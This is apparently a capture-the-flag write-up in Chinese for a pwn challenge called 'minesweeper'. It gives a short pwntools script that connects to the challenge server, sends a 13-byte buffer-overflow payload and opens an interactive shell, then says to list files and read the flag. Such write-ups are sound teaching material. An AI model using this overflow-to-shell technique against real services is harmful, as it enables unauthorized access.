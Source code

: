 ## Pwn

### minesweeper

构造：
```python
from pwn import *

context (os = 'linux',arch = 'amd64' , log_level = 'debug')

p = remote('210.30.97.133',10152) # 连接端口

p.sendline('3')
p.sendline('3')
p.sendline('3')
payload1 = b'a'*12 + b'\x46'
p.send(payload1)

p.interactive()
```
随后`ls`，`cat flag`即可。
